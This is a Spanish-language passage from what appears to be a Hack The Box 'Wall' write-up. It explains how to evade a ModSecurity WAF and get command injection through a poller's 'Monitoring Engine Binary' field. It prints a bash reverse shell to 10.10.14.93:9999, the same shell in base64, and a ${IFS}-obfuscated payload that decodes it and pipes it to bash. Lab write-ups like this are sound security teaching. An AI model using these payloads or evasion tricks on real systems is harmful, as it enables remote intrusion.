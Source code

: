 ![Forbidden](images/htb/wall/403.png)

Para no extenderme más, recordar que la página inicial por defecto del servidor web tenía habilitado `ModSecurity`, de modo que esta era la razón por la que daba error `403` al intentar enviar ciertos comandos por el exploit o directamente en la aplicación web. ModSecurity, el [Web Application Firewall (WAF)](https://es.wikipedia.org/wiki/Web_application_firewall) en el servidor estaba filtrando ciertos caracteres que enviábamos para evitar ataques. Entonces, tuvimos que aprender sobre [WAF Evasion Techniques](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8). Luego de muchos intentos fallidos como pude explotar la vulnerabilidad fue de la manera siguiente:

1. Ir a Configuración > Pollers
2. Agregar o modificar un `poller` manualmente en la aplicación web y colocar el comando "malicioso" en el campo `Monitoring Engine Binary` y poner el campo `Localhost` como `Yes`.

Aquí hay que tener en cuenta que debemos usar una técnica apropiada para camuflar el comando "malicioso" y así bypassear el WAF. Para esto vamos a enviar el comando camuflado en base64 y otros caracteres especiales de bash. Usaremos un reverse shell con bash: 

```
echo 'bash -i >& /dev/tcp/10.10.14.93/9999 0>&1' | base64
```
```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My85OTk5IDA+JjEK
```

Payload en bash:

```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45My85OTk5IDA+JjEK|base64${IFS}-d|bash;
```
